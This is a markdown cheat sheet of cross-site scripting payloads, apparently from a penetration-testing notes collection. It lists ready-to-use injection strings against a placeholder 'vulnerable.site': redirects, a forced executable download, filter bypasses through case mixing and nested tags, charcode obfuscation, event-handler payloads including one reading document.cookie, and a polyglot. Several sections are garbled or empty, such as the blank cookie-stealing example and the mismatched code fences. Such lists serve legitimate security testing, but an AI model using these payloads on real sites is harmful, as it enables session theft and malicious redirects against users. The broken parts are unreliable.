



# XSS classic playloads

## XSS classic playloads

#### • **Simple Alert XSS :**

```text
### • **redirection :**

```
```

#### • **stealing cookie :**

``<script>document.write(``);</script>``

#### • **Redirect user :**

`<script>window.location="http://www.polo.com";</script>`

#### • **Forcing user to download something :**

```text
<script>var link = document.createElement('a'); link.href = 'http://the.earth.li/~sgtatham/putty/latest/x86/putty.exe'; link.download = ''; document.body.appendChild(link); link.click();</script>
```

### Simple XSS obfuscation

#### • **Simple Bypass**

```text
<sCripT>alert(1);</sCripT>
est<sc<ScrIpt>ript>alert(1);</sc</ScrIpt>ript>
https://vulnerable.site/index.php?name=est%3Csc%3CScrIpt%3Eript%3Ealert(1);%3C/sc%3C/ScrIpt%3Eript%3E
```

```text
with the <a tag and for the following events: onmouseover (you will need to pass your mouse over the link), onmouseout, onmousemove, onclick ...
with the <a tag directly in the URL: <a href='javascript:alert(1)'... (you will need to click the link to trigger the JavaScript code and remember that this won't work since you cannot use script in this example).
with the .
with the <div tag and for the following events: onmouseover (you will need to pass your mouse over the link), onmouseout, onmousemove, onclick
```

#### • **Ascii to decimal**

eval and String.fromCharCode\(\)

`<script>eval(String.fromCharCode(97,108,101,114,116,40,39,53,55,51,50,49,101,56,98,45,48,49,98,102,45,52,98,101,50,45,56,99,52,52,45,56,97,56,99,50,54,99,54,54,49,57,56,39,41,59))</script>`

### Inside a script tag

```text
h1>PAge</h1>
      <p>Welcome!
     <script>
        var $a= "test";
     </script>
    </p>
```

* Add a quotes, try to add a new variable

```text
<script>
    var $a= "";alert(1);var a="";
</script>
</p>
```

### HTML entities in PHP webapps

Special chars cannot be used. Bypass can be done using HTML Entities.

#### Cause

function used to HTML-encode characters \(htmlentities\) does not encode single quotes \('\), unless you told it to do so, using the ENT\_QUOTES flag.

`index.php?name=test"`

--&gt; Escaped double quotes :

`var $a= 'test&quot;';` =

Using a simple quote can do the trick :

`index.php?name=test';alert(1);var a='` =

### Escaped chars \(&lt;&gt;"\)

&lt; &gt; are escaped, so you cannot add our script tag

`ELLO &lt;&gt;&quot;' </p>`

we can try to add something after the index.php



Source page :



* close the statement and inject a script tag using "&gt;&lt;new tag

[http://vulnerable.site/index.php/ytregkflkgd%22%3E%3Cscript%3Ealert\(1\)%3C/script%3E](http://vulnerable.site/index.php/ytregkflkgd%22%3E%3Cscript%3Ealert%281%29%3C/script%3E)

### Script blacklisted

```text
http://vulnerable.site/index.php?name=%3Cimg%20src=X%20onerror=%27alert(`XSS`)%27%20/%3E
```

\` `<div` can also be used

```text
http://vulnerable.site/index.php?name=%3Csvg/onload=alert(%27XSS%27)%3E``
```

```text
htt://vulnerable.site/index.php?name=
```

`<b onmouseover=alert('XSS')>Click Me!</b>`

`<svg onload=alert(1)>`

`<body onload="alert('XSS')">`

`<mg src="http://test.safesite.org" onerror=alert(document.cookie);>`

### Polyglot Attack

[https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot](https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot)

/_-/_`/*\`/_'/_"/_\*/\(/_ \*/oNcliCk=alert\(\) \)//%0D%0A%0d%0a//&lt;/stYle/&lt;/titLe/&lt;/teXtarEa/&lt;/scRipt/--!&gt;\x3csVg/&lt;sVg/oNloAd=alert\(\)//&gt;\x3e



### xsshunter.com

* [https://xsshunter.com/app](https://xsshunter.com/app)
* use a payload then check the reports :



